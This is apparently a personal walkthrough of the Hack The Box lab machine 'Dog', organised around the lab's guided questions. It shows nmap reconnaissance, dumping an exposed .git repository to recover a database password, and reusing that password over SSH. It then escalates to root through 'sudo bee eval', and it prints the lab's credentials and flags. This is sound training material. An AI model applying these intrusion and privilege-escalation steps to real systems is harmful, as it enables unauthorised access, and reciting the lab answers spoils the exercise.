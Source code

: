 # Dog
- https://www.youtube.com/watch?v=Z24FN8qqngY&t=214s
- https://0xdf.gitlab.io/2025/07/12/htb-dog.html

## Setup
```
┌──(root㉿kali)-[/home/jacob/Documents/Notes/HTB_Labs]
└─# touch HTB_Dog.md; mousepad HTB_Dog.md

┌──(root㉿kali)-[/home/jacob/Desktop]
└─# mkdir dog; cp nmap.sh dog; cd dog

┌──(root㉿kali)-[/home/jacob/Desktop/dog]
└─# ./nmap.sh dog 10.129.231.223

```

## NMAP
```
┌──(root㉿kali)-[/home/jacob/Desktop/dog]
└─# ./nmap.sh dog 10.129.231.223
Running nmap scan on 10.129.231.223 with output to dog...
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-14 07:26 AEST
Nmap scan report for 10.129.231.223
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-git: 
|   10.129.231.223:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-title: Home | Dog
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 338.70 seconds
Scan completed successfully.
Output files created: dog.nmap, dog.gnmap, dog.xml
```

## Guided Mode Questions
1. How many open TCP ports are listening on Dog?
```
2
```
2. What is the name of the directory on the root of the webserver that leaks the full source code of the application?
```
.git

This was obvious by looking at the NMAP scan results
```
3. What is the CMS used to make the website on Dog? Include a space between two words.
```
backdrop cms

Also obvious in the NMAP scan
```
4. What is the password the application uses to connect to the database?
```
BackDropJ2024DS2024


Used git-dumper in venv: 

┌──(v-env)(root㉿kali)-[/home/jacob/Desktop/dog]
└─# git-dumper http://10.129.231.223:80/.git/ output

Then ran:

┌──(v-env)(root㉿kali)-[/home/jacob/Desktop/dog/output]
└─# find . -type f | grep pass                                                                                                                  
./core/modules/simpletest/tests/password.test
./core/modules/user/tests/user_password_reset.test
./core/modules/user/user.password.inc
./core/scripts/password-hash.sh
./core/includes/password.inc

Didn't work, after trying other keywords I read 0xdf who found it in settings.php

$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';

Literally found in the root directory
```

5. What user uses the DB password to log into the admin functionality of Backdrop CMS?
```
tiffany

In this case it was reasonable to assume they might existr with the @dog.htb format:

──(v-env)(root㉿kali)-[/home/jacob/Desktop/dog/output]
└─# grep -r '@dog.htb'                                                                                                                          
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
.git/logs/refs/heads/master:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000       commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
.git/logs/HEAD:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000    commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases

```

6. What system user is the Backdrop CMS instance running as on Dog?
```
johncusack

I couldn't get the vulnerability to work as described in 0xdf:

This requires knowing the version number and researching for CVEs.
- https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS
- Go here --> https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS/releases/tag/backdrop
- Download reference.tar and manually install it as a module

```
7. What system user on Dog shares the same DB password?
```
johncusack


Learnt by trying out different username/password combinations with SSH
```

8. Submit the flag located in the johncusack user's home directory.
```
cb07421cb751ae1c6563a6028a3c7bb8

Using the above username / DB password, SSH, then see user.txt:

┌──(v-env)(root㉿kali)-[/home/jacob/Desktop/dog/output]
└─# ssh johncusack@10.129.231.223

```

9. What is the full path of the binary that the johncusack user can run as any user on Dog?
```
/usr/local/bin/bee

By simply entering: sudo -l
```

10. bee requires a root directory to run properly. What is the appropriate root directory on Dog? Include the trailing /.
```
/var/www/html/

bee is the comm-and line utility for Backdrop CMS. Running bee prints a help menu with a ton of subcommands
```

11. What is the bee subcommand to run arbitrary PHP code?
```
eval

This is from reading the output of 'bee'
```
12. Submit the flag located in the root user's home directory.
```
johncusack@dog:/var/www/html$ sudo bee eval 'system("id")'
uid=0(root) gid=0(root) groups=0(root)
johncusack@dog:/var/www/html$ sudo bee eval 'system("bash")'
root@dog:/var/www/html# cat root.txt
cat: root.txt: No such file or directory
root@dog:/var/www/html# su -
root@dog:~# cat root.txt
9cba04014eb6df4dfac434d4307d46b5
root@dog:~# 

```

## Notes
- If you have the git repo, you won't need to enumerate directories etc
- A clean up script was running on this so it would vanish frequently
